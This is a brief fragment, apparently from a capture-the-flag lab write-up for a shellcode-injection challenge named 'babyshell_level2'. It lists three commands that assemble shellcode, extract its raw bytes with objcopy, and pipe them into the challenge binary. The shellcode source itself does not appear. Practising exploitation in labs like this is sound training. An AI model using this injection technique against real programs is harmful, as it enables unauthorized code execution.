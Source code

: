 STEP:

1. ```cmd
   gcc -nostdlib -static shellcode.s -o shellcode-elf
   ```
2. ```cmd
   objcopy --dump-section .text=shellcode-raw shellcode-elf
   ```
3. ```cmd
   (cat /home/hacker/shellcode-injection/lv2/shellcode-raw;cat) | ./babyshell_level2
   ```
